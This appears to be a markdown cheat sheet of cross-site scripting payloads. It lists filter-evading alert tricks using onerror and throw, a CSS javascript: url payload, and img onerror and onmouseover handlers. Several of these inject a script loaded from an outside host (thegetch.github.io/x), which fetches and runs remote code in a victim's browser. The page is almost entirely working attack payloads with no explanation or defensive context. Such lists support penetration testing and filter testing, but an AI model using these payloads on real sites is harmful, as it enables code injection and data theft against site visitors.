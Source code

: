 No parentheses:
```
<script>onerror=alert;throw 1337</script>
```

No parentheses or semicolon:
```
<script>{onerror=alert}throw 1337</script>
```

Throw with expression:
```
<script>throw onerror=alert,'some string',123,'haha'</script>
```

### css:
```
<style>body{background:url('javascript:var x=document.createElement("script");x.src="https://thegetch.github.io/x";document.body.appendChild(x)')}</style>
```

### In `<img>` tags:
```
<img src=x onerror='var x=document.createElement("script");x.src="//thegetch.github.io/x";document.body.appendChild(x);'>
```

```
<img src=x onerror='var x=document.createElement(\"script\");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

```
<img src onerror = 'var x=document.createElement("script");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

```
<img src=# onmouseover='var x=document.createElement("script");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

```
<img src=x onerror=alert(1) />
```

```
<img src=x onerror="alert(1)" />
```

```
<img src=x onerror=alert("XSS") /> 
```

```
<IMG SRC="javascript:alert('Vulnerable');">
```

```
<IMG SRC=javascript:alert('XSS')>
```
